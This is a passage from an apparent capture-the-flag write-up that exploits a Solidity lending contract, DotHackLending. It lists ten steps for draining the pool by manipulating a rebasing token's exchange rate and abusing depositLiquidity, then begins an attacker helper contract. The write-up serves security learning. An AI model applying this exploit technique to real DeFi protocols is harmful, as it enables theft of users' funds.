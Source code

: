         _userInfo.collateralAmount -= refundCollateral;

        uint256 borrowInterest = _userInfo.totalDebt - _userInfo.principal;

        _userInfo.totalDebt -= amount;
        _assetInfo.totalDebt -= amount;

        if (borrowInterest < amount) {
            _userInfo.principal -= amount - borrowInterest;
            _assetInfo.totalPrincipal -= amount - borrowInterest;
            _assetInfo.avaliableClaimableReward += borrowInterest;
            _assetInfo.avaliableLiquidity += amount - borrowInterest;
        } else {
            _assetInfo.avaliableClaimableReward += amount;
        }

        require(IERC20(asset).transferFrom(msg.sender, address(this), amount));
        require(IERC20(collateral).transfer(msg.sender, refundCollateral));
    }
    ```

### Exploitation

The exploit steps are as follows:

1. Register for the challenge and receive tokens
2. Deposit USD as collateral and borrow some RebasingWETH
3. Exchange RebasingWETH with WETH and deposit most of them as liquidity
   - To earn `claimableReward`, we need to call `updateAsset()` to update `globalIndex`, otherwise the interest will never accrue
4. Borrow all RebasingWETH in the lending pool
5. Withdraw the USD collateral through `liquidate()` and later claim paid RebasingWETH
6. Redeem all WETH with RebasingWETH
7. Deposit 10,000 WETH into `DotHackRebasingToken` and then transfer 10,000 WETH into it to increase the exchange rate
8. Abuse the `depositLiquidity()` to earn collateral while being available to withdraw all tokens
9. Borrow all remaining tokens in the lending pool
10. Redeem WETH from `DotHackRebasingToken`

```js
contract BorrowHelper {
    uint constant INITIAL_AMOUNT = 10000 ether;
    uint constant BORROW_AMOUNT = 2 ether;
    uint constant REPAY_AMOUNT = 3 ether;

    Challenge _challenge;
    address _collateral;
    address _asset;

    constructor(Challenge challenge) {
        _challenge = challenge;
    }

    function initialize(
        address collateral,
        address asset
    ) external {
        _collateral = collateral;
        _asset = asset;

        Challenge challenge = _challenge;
        DotHackLending lending = DotHackLending(challenge.dotHackLending());

        IERC20(collateral).approve(address(lending), type(uint256).max);
        IERC20(asset).approve(address(lending), type(uint256).max);

        lending.depositCollateral(collateral, INITIAL_AMOUNT);
```